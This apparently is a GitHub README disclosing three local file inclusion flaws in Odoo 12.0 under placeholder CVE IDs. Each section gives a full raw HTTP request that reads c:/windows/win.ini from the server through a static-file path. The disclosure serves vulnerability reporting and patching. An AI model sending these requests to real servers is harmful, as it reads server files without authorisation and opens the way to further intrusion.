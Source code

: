 # Odoo-12.0-LFI-Vulnerabilities
[Odoo 12.0](https://www.odoo.com/) that is open source ERP and CRM, allows remote attackers to read local files. 

# CVE-2019-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]:8069/base_import/static/c:/windows/win.ini' request to get some informations from the target.

```
GET /base_import/static/c:/windows/win.ini HTTP/1.1
Host: 172.16.191.132:8069
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/Odoo-v12-LFI-Vulnerability-3.png)


# CVE-2019-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]:8069/web/static/c:/windows/win.ini' request to get some informations from the target.

```
GET /web/static/c:/windows/win.ini HTTP/1.1
Host: 172.16.191.132:8069
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/Odoo-v12-LFI-Vulnerability-1.png)

# CVE-2019-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]:8069/base/static/c:/windows/win.ini' request to get some informations from the target.

```
GET /base/static/c:/windows/win.ini HTTP/1.1
Host: 172.16.191.132:8069
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/Odoo-v12-LFI-Vulnerability-2.png)
